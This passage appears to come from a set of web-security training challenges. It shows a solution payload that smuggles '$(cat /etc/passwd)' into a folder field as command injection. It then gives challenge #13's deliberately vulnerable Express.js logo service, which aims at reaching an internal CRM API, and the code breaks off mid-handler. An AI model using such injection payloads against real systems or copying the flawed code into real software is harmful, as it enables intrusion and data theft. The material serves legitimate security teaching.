 <br />



```
POST /addAssetsFolder

{"companyId":"550e8400-e29b-41d4-a716-446655440004","folder":"$(cat /etc/passwd)"}
```

then

```
POST /companyAssets HTTP/2

{"companyId":"550e8400-e29b-41d4-a716-446655440004"}
```



<br /><br />

### **#13: Company Logos**

**Goal:** Get the list of CRM users from the internal network API

**Code:**

```javascript
import express from 'express';
const app = express();
const app2 = express();
import fs from 'fs';
import fetch from "node-fetch";
import bodyParser from 'body-parser';
app.use(bodyParser.json());
import dotenv from 'dotenv';
import { CRMUsers } from './crm.mjs';
dotenv.config();

const uuidFormat = /^[0-9a-f]{8}-[0-9a-f]{4}-[0-5][0-9a-f]{3}-[089ab][0-9a-f]{3}-[0-9a-f]{12}$/i;

app.post('/getCompanyLogo', async (req, res) => {
    try {
        let json = req.body;
        let companyId = String(json.companyId);

        if(companyId != '' && companyId.match(uuidFormat)) {
            const data = fs.readFileSync(`${process.env.companyLogosFolder}/${companyId}`);
            res.send(data);
        }
        else res.send("invalid arguments provided");
    } catch (e) {
        res.send(e.message);
    }
})

const validURL = (ImageURL) => {
    try {
        const newUrl = new URL(ImageURL);
        return newUrl.protocol === 'http:' || newUrl.protocol === 'https:';
    } catch (err) { return false; }
}

app.post('/setCompanyLogo', async (req, res) => {
    try {
        console.log("remote ip:" + requestIp.getClientIp(req));
        let json = req.body;
        let companyId = String(json.companyId);
```